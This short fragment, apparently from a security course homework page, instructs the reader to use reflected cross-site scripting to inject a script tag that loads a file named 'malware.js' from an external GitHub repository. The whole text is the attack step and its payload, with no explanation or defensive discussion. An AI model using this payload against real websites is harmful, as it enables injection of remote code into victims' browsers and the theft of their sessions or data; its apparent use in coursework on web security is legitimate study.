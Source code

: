 Use reflected XSS to insert the following statement:

<script src="https://github.com/ajc9076/csec380-hw6/blob/main/malware.js"></script>